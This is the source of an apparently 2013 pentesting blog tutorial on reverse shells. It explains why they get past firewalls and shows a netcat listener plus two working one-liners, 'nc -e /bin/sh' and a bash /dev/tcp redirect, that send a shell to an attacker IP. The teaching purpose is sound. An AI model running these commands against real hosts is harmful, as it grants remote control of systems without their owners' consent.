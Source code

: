 ```yaml
---
title: "Reverse shell methods"
date: "2013-09-30T12:00:00-04:00"
url: "/posts/reverse-shell-methods"
categories:
- infosec
tags:
- shells
- pentesting
summary: "Methods for obtaining reverse shells"
---
```

Welcome and Hello!  Let's get started...  Today's topic: Reverse Shells

# What is a Reverse Shell?

A reverse shell is a method by which penetration testers (and bad guys!) can
gain a shell, or user command access, on a target.  They are very useful because
they initiate communication from a trusted host inside the perimeter to a host
outside of the perimeter.  This means a reverse shell has the capability to
bypass firewall ingress rules, which would prevent incoming connections - aka
bind shells - from reaching into the network to gain user command access on a
host.

See this [SANS paper][SANS] by Richard Hammer for a good overview of Reverse
Shells.

# Gaining a Reverse Shell

The first thing I do is start my listener.  This listener is crucial, as it
waits for commands I will send it from my victim's host and then do something
useful with them.

On my attack box (10.25.43.35):

```bash
$ nc -lv 8080
```
{{< figure src="/images/2013/09-30-1.png" caption="netcat listener" >}}

Now, netcat (or nc) is listening on port 8080 for incoming connections (-l) and
will print them verbosely (-v) to standard output.  All of the reverse shell
methods detailed below will reach back to this listener to establish a
connection with my attack host.

On the target's box: Here, I may or may not have several options for
communicating back to my host.  I'll outline two methods, using netcat and bash,
which are common binaries found on a target Unix box.

{{% callout note %}}
Note: These commands all work under the assumption I can execute commands in a
limited fashion on my victim's host already.  "Why go through the trouble of
opening a reverse shell if you can already access commands on your target?"
would be a valid question.

During a penetration test, you may discover you have the limited ability to
execute a command on a remote host.  For instance, an un-sanitized text entry
box on a website may allow you to pass a command the web server wasn't
expecting.  Perhaps you've tricked a user into clicking on a malicious link, or
opening a malicious file which executes a small set of commands.  Maybe your
target is running Windows XP and hasn't patched against [MS08-067][MS08067]
(still my favorite exploit of all time :D).
{{% /callout %}}

Whatever the reason you don't have full interactive access to your target, but
you want it.  You crave it.  I do, too!

Using netcat:

```bash
$ nc -e /bin/sh 10.25.43.35 8080
```

This causes my victim's box to execute /bin/sh and connect to my attacker's box
over port 8080.  As you can see in the screenshot, I'm not getting a lot of
feedback in the shell (note: no prompt)

{{< figure src="/images/2013/09-30-2.png" caption="connect back netcat" >}}

Using bash:

```bash
$ bash -i > /dev/tcp/10.25.43.35/8080 0<&1 2>&1
```

This uses the bash shell's I/O redirection and built-in method for TCP
connections to open a reverse shell.  I particularly like this method because
the syntax gives me a headache (I'm still trying to wrap my head around this
level of [I/O redirection][IOredir]) and because nearly every Unix box has bash
installed.

{{< figure src="/images/2013/09-30-3.png" caption="connect back bash" >}}

If your victim's host has python, perl, php, or ruby installed - which is very
likely - you can check out [pentestmonkey's cheat sheet][ptmonkey] for examples
of how to gain reverse shells using those methods.

[SANS]: http://www.sans.org/reading-room/whitepapers/covert/inside-out-vulnerabilities-reverse-shells-1663?show=inside-out-vulnerabilities-reverse-shells-1663&cat=covert
[ptmonkey]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[IOredir]: http://www.tldp.org/LDP/abs/html/io-redirection.html#IOREDIRREF
[MS08067]: http://technet.microsoft.com/en-us/security/bulletin/ms08-067
